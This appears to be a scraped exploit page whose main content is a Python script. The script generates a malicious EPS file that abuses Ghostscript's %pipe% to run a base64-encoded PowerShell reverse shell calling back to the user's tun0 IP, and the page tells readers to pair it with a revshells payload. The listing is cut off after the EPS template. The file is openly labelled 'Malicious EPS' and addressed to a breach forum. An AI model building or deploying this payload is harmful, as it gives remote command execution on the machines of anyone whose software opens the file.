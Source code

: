 ![](https://i.imgur.com/8Doi3RH.png)




Save the `Powershell #3 (Base64)` payload from [**revshells**](https://revshells.com) to a file, will name mine "**whoami**", then use this python script to get a reverse shell


```python
import argparse
import os
import re
import subprocess
import base64

def get_user_input():
    ip_command = "ip addr show tun0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1"
    ip = subprocess.check_output(ip_command, shell=True).decode().strip()
    print(f"Detected Tun0 IP: {ip}")
    user_ip = input("Enter to accept IP or type new IP: ")
    ip = user_ip if user_ip else ip
    port = input("Enter NetCat connect back port: ")
    filename = input("Enter filename: ")

    return ip, port, filename

def generate_payload(ip, port):
    payload = f"""$client = New-Object System.Net.Sockets.TCPClient("{ip}",{port});
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{{0}};
while(( $i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){{;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}};
$client.Close()"""

    base64_payload = base64.b64encode(payload.encode('utf-16le')).decode()
    final_payload = f"powershell -e {base64_payload}"
    escaped_payload = f"(%pipe%{final_payload}) (w) file /DCTDecode filter"
    return escaped_payload

def generate_payload_file(filename, payload):
    content = f"""%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Malicious EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Sup breachforums!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
{payload}
showpage"""

```